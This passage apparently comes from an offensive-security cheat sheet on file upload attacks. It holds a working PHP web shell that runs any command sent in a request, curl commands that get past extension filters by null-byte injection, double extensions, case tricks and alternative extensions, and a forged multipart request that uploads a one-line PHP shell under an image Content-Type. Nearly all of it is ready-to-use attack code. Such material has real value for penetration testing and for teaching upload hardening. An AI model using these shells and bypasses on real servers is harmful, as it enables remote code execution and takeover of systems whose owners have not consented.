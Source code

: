 **More sophisticated shell:**

```php
<?php
// shell2.php
if(isset($_REQUEST['cmd'])){
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>

<form method="POST">
    Command: <input type="text" name="cmd">
    <input type="submit" value="Execute">
</form>
```

### Bypass File Extension Filters

```bash
# 1. Null byte injection (older PHP)
curl -F "file=@shell.php%00.jpg" http://target.com/upload

# 2. Double extension
curl -F "file=@shell.php.jpg" http://target.com/upload

# 3. Case variation
curl -F "file=@shell.PhP" http://target.com/upload
curl -F "file=@shell.pHp" http://target.com/upload

# 4. Alternative extensions
shell.php5
shell.phtml
shell.phar
shell.asp
shell.aspx
shell.jsp
shell.jspx

# 5. Add valid extension at end
curl -F "file=@shell.php.png" http://target.com/upload
# Then rename or use path traversal
```

### Bypass Content-Type Validation

```bash
# Change Content-Type header
curl -F "file=@shell.php;type=image/jpeg" http://target.com/upload

# Burp Suite:
POST /upload HTTP/1.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg  <!-- Fake content type -->

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary--
```
